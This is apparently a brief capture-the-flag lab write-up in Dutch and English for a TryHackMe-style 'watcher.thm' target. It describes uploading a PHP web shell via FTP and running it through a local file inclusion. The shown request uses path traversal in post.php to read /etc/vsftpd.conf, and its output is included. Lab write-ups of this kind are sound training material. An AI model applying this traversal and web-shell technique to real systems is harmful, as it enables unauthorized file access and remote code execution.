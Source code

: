 ## Recon

### Overzicht

met de toegang die we hebben tot ftp, gaan we shell uploaden naar /files/ dir

### Steps to reproduce

1.

**Upload shell.php naar /files dir**

![alt text](image-4.png)

2.

**Use LFI to run the shell.php file.**

```
http://watcher.thm/post.php?post=../../..//etc/vsftpd.conf



listen=NO listen_ipv6=YES anonymous_enable=NO local_enable=YES write_enable=YES local_umask=022 dirmessage_enable=YES use_localtime=YES xferlog_enable=YES connect_from_port_20=YES chroot_local_user=YES secure_chroot_dir=/var/run/vsftpd/empty pam_service_name=vsftpd force_dot_files=YES pasv_min_port=40000 pasv_max_port=50000 user_sub_token=$USER local_root=/home/$
```

**File contains in /home/user/ftp/files/shell.php**

3.

**Running the shell**

![alt text](image-5.png)





